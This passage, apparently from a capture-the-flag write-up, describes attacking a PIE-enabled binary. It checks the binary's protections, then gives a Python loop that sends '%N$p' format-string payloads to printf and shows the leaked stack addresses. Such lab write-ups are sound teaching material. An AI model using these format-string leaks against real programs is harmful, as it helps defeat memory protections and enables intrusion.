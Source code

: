 Keeping that in mind, I did a check on the protections of the the binary file and noticed the following:
```
Arch:     amd64-64-little
RELRO:    Full RELRO                                                                                                    
Stack:    Canary found                                                                                                  
NX:       NX enabled                                                                                                    
PIE:      PIE enabled
```

It seems like all the protections are enabled, and of all of them, Position-Indpendent Executable (PIE) is also enabled, which means that the address of ```FLAG``` where it is stored is not simply ```0x00104060``` as PIE changes the base address of the binary file. 

I proceeded to print the stack values using the format string vulnerability of ```printf```.

Python script:
```python
for i in range(26):
    r.sendlineafter(">", b"5")
    r.sendline("AAAABBBB %%%d$p" % i)
    r.recvuntil("a ")
    print("%d - %s" % (i, r.recvuntil("\n", drop = True).decode()))
```
Using the above python script, I obtained the following output.

Output:
```
0 - AAAABBBB %0$p                                                                                                       
1 - AAAABBBB 0x7ffe785b49c0                                                                                             
2 - AAAABBBB (nil)                                                                                                     
3 - AAAABBBB (nil)                                       
4 - AAAABBBB 0x12                                                                                                       
5 - AAAABBBB 0x12                                                                                                       
6 - AAAABBBB 0x4242424241414141                                                                                        
7 - AAAABBBB 0x7024372520                                                                                               
8 - AAAABBBB 0x5593be703740                                                                                             
9 - AAAABBBB 0x7ffe785b70b0                                                                                             
10 - AAAABBBB 0x5593be7031e0                                                                                           
11 - AAAABBBB 0x25f1343f94616b00 
12 - AAAABBBB 0x7ffe785b70b0      
13 - AAAABBBB 0x5593be703725     
14 - AAAABBBB 0x5785b71a0        
15 - AAAABBBB 0x5593bf3702a0   
16 - AAAABBBB (nil)              
17 - AAAABBBB 0x7fe9e98d40b3       
18 - AAAABBBB 0x7fe9e9ace620    
19 - AAAABBBB 0x7ffe785b71a8    
20 - AAAABBBB 0x100000000
21 - AAAABBBB 0x55dc9295b621     
22 - AAAABBBB 0x55dc9295b740   
23 - AAAABBBB 0xa15bf491b63955d4  
24 - AAAABBBB 0x55dc9295b1e0      
```